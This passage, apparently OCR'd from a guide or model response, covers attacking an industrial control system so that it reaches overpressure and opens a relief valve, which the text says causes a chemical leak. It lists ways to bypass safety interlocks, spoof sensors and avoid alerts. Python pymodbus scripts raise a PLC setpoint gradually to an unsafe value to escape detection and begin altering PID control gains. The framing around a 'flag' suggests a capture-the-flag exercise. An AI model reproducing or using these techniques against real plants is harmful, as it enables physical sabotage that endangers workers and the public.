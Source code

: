     # Step 2: Modify main parameter
    client.write_register(address=<main_param>, value=<unsafe_value>)
    
    client.close()
    ```
  - **Timing-Based Attacks**: Make changes during normal operational fluctuations
  - **False Feedback**: If possible, manipulate sensor inputs to make the system believe conditions are normal

## 8. Triggering the PORV Flag

The PORV (Pressure-Operated Relief Valve) flag likely indicates an overpressure condition that would cause a safety valve to open, resulting in a chemical leak.

- **Understanding Safety Systems**: Safety systems typically have multiple layers of protection.
  - **Evasion Tip**: Understand normal operating parameters before attempting manipulation.

- **Potential Approaches**:
  1. **Setpoint Manipulation**: Change pressure/temperature setpoints to unsafe values.
  2. **Safety Interlock Bypass**: Disable or bypass safety interlocks if possible.
  3. **Sensor Value Spoofing**: Make the system believe conditions are normal while pushing physical parameters to unsafe levels.
  4. **Control Loop Interference**: Disrupt PID control loops that maintain safe operation.

- **Example (Modbus Setpoint Manipulation)**:
  ```python
  from pymodbus.client.sync import ModbusTcpClient
  import time
  
  client = ModbusTcpClient('<plc_ip>')
  
  # Read current setpoint
  current_setpoint = client.read_holding_registers(address=<setpoint_register>, count=1)
  print(f"Current setpoint: {current_setpoint.registers[0]}")
  
  # Gradually increase setpoint to avoid sudden changes that might trigger alerts
  target_setpoint = <unsafe_value>
  current_value = current_setpoint.registers[0]
  
  while current_value < target_setpoint:
      current_value += 5  # Small increment
      client.write_register(address=<setpoint_register>, value=current_value)
      print(f"Setpoint changed to: {current_value}")
      time.sleep(30)  # Wait between changes to avoid rapid changes
  
  client.close()
  ```

- **Example (Control Loop Interference)**:
  ```python
  from pymodbus.client.sync import ModbusTcpClient
  import time
  
  client = ModbusTcpClient('<plc_ip>')
  
  # Identify PID control parameters (example)
  pid_kp_register = <proportional_gain_register>
  pid_ki_register = <integral_gain_register>
  
  # Read current values
  current_kp = client.read_holding_registers(address=pid_kp_register, count=1).registers[0]
  current_ki = client.read_holding_registers(address=pid_ki_register, count=1).registers[0]
  
  # Modify PID parameters to make control loop less responsive or unstable
  ```